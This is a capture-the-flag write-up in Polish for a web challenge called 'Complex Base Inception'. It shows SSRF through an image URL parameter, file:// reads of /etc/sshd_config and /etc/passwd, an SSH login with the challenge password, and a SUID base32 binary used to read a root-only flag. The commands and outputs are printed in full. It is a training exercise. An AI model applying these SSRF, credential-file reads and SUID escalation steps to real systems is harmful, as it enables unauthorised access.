


# Complex Base Inception - web, misc



Przy wysyłaniu obrazków na serwer, można w parametrze `image` ustawić jakikolwiek inny URL, przez co możemy zleakować adres IP serwera, podając URL webhooka.



Używająć `file://` scheme, możemy dostać `file:///etc/sshd_config` i `file:///etc/passwd`, żeby dowiedzieć się na jakim porcie działa serwer SSH i na jakiego usera mamy się zalogować. Potem odczytać te dane na stronie z galerią.

/etc/sshd_config:
```
Include /etc/ssh/sshd_config.d/*.conf

Port 64
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::
```

/etc/passwd:
```
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
base64:x:1001:1001::/home/base64:/bin/bash
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
```

Potem wystarczy zalgoować się przez SSH używając hasła podanego w opisie zadania: `L0ng4ndStr0ngPass1sTheBaseSomeW3irdTxt`

```shell=
~/s/c/h/cbi: ssh base64@38.60.249.147 -p 64 
(base) base64@sqmrg0p2:~$ ls -alh
total 12K
drwxr-xr-x 2 root root   53 Jul 21 21:14 .
drwxr-xr-x 4 root root   34 Jul 11 05:04 ..
-r-------- 1 root root   73 Jul 11 05:14 flag.b64
```

Po znalezieniu, że binarka base32 ma SUID bit ustawiony, możemy dzięki niej odczytać flagę, która jest do odczytu tylko przez roota:
```shell=
(base) base64@sqmrg0p2:~$ find / -perm -4000 2>/dev/null
/snap/core22/817/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core22/817/usr/lib/openssh/ssh-keysign
/usr/bin/base32
/usr/bin/at
/usr/bin/chfn
(base) base64@sqmrg0p2:~$ /usr/bin/base32 ./flag.b64 | base32 --decode
ZWNzYzIze3NvbWVfdW5ndWVzc2FibGVfdGV4dF9hbmRfc29tZV9zYWx0X2R0Y3BraGFhfQ==
```

Flag: `ecsc23{some_unguessable_text_and_some_salt_dtcpkhaa}`
